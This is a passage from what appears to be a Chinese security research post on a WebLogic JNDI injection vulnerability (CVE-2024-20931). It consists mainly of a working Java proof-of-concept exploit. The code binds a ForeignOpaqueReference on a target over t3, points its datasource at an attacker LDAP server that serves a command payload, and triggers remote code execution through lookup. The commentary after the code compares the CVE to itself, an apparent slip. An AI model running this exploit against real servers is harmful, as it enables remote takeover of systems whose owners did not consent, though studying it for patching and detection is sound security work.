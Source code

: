 ```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference的jndiEnvironment属性  
        Hashtable env2 = new Hashtable();  
        env2.put("java.naming.factory.initial", "oracle.jms.AQjmsInitialContextFactory");  
        env2.put("datasource", "ldap://192.168.1.12:1389/Basic/Command/calc");  

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  

        // 远程绑定ForeignOpaqueReference对象  
        c.rebind("glassy", f);  

        // lookup查询ForeignOpaqueReference对象  
        try {  
            c.lookup("glassy");  
        } catch (Exception e) {  
        }  
    }  
}
```

其他思考
----

CVE-2024-20931还是使用了和CVE-2024-20931一样的类`weblogic.deployment.jms.ForeignOpaqueReference`

回到`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中

![image-20240221172407635](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-205ae3bf605c869b917b9fd18d3009930d24c7e2.png)

是不是还能找到其他实现了`OpaqueReference`接口的利用类

然后找到`weblogic.jndi.internal.ForeignOpaqueReference`
